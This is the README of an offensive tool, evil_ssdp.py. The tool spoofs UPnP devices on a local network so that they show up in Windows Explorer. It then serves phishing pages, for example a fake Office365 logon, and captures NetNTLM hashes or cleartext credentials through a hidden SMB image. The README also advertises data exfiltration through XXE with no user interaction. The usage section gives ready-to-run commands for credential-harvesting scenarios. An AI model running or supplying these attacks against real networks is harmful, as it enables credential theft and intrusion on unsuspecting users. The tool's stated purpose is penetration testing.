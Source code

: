 # Overview
This tool responds to SSDP multicast discover requests, posing as a generic UPNP device. Your spoofed device will magically appear in Windows Explorer on machines in your local network. Users who are tempted to open the device are shown a configurable phishing page. This page can load a hidden image over SMB, allowing you to capture or relay the NetNTLM challenge/response.

Templates are also provided to capture clear-text credentials via basic authentication and logon forms, and creating your own custom templates is quick and easy.

This requires no existing credentials to execute and works even on networks that have protected against Responder attacks by disabling NETBIOS and LLMNR. Any Operating System or application leveraging SSDP/UPNP can be targeted, but most of the current weaponization has been aimed at Windows 10.

[Video: Phishing Overview](https://initstring.keybase.pub/host/videos/essdp-phishing.mp4)

As a bonus, this tool can also detect and exploit potential zero-day vulnerabilities in the XML parsing engines of applications using SSDP/UPNP. If a vulnerable device is found, it will alert you in the UI and then mount your SMB share or exfiltrate data with NO USER INTERACTION REQUIRED via an XML External Entity (XXE) attack. 

[Video: 0-Day Overview](https://initstring.keybase.pub/host/videos/essdp-0days.mp4)

# Usage
The most basic run looks like this:

```
evil_ssdp.py eth0
```

You need to provide the network interface at a minimum. The interface is used for both the UDP SSDP interaction as well as hosting a web server for the XML files and phishing page.

The tool will automatically update an IMG tag in the phishing page using the IP of the interface you provide. To work with challenge/response, you'll need to launch an SMB server at that interface (like Impacket). This address can be customized with the `-s` option. 

Some example scenarios:

```
# Use wlan0 for device advertisement and phishing, capturing NetNTLM and
# asking for clear-text via a spoofed Office365 logon form. Redirect to
# Microsoft aftering capturing credentials:
evil_ssdp.py wlan0 -t office365 -u 'https://office.microsoft.com'

# Same as above, but assuming your SMB server is running on another IP:
evil_ssdp.py wlan0 -t office365 -u 'https://office.microsoft.com' \
    -s 192.168.1.205

# Prompt for creds using basic auth and redirect to Azure:
evil_ssdp.py wlan0 -t microsoft-azure -u \
    'https://azure.microsoft.com/auth/signin/' -b

# Hope for an XXE vul to capture NetNTLM while Impacket/Responder is running
on wlan0:
evil_ssdp.py wlan0 -t xxe-smb
```
